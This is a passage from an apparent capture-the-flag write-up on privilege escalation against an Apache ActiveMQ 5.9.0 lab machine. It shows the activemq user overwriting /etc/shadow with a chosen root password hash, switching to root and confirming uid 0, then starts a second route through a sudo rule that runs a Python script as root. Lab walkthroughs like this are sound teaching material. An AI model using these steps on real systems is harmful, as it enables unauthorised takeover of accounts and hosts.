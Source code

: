 **Let's change root's password hash:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ cat << EOF > /etc/shadow
root:\$6\$9Z6z6EmYpHQYlLks\$HwvqTojwcMUQwJqICq04d5AM3nype6HgX6gO6Q/SKXbECP89OpgsvsfQKHMibUD6vbZ90ME3fOTFLQevzbJ5X0:18621:0:99999:7:::
daemon:*:18605:0:99999:7:::
bin:*:18605:0:99999:7:::
sys:*:18605:0:99999:7:::
sync:*:18605:0:99999:7:::
games:*:18605:0:99999:7:::
man:*:18605:0:99999:7:::
lp:*:18605:0:99999:7:::
mail:*:18605:0:99999:7:::
news:*:18605:0:99999:7:::
uucp:*:18605:0:99999:7:::
proxy:*:18605:0:99999:7:::
www-data:*:18605:0:99999:7:::
backup:*:18605:0:99999:7:::
list:*:18605:0:99999:7:::
irc:*:18605:0:99999:7:::
gnats:*:18605:0:99999:7:::
nobody:*:18605:0:99999:7:::
_apt:*:18605:0:99999:7:::
messagebus:*:18621:0:99999:7:::
activemq:\$6\$Ra/XClrOq2ltc.E.\${Redacted}/:18621:0:99999:7:::
> EOF
```

**Finally, Switch User to root:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ su root
su root
Password: password

root@activemq:/opt/apache-activemq-5.9.0# whoami;hostname;id;hostname -I
root
activemq
uid=0(root) gid=0(root) groups=0(root)
10.10.179.241 172.17.0.1 
```

I'm root! :D

### 2. activemq to root

**Let's check our Sudo permission:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```
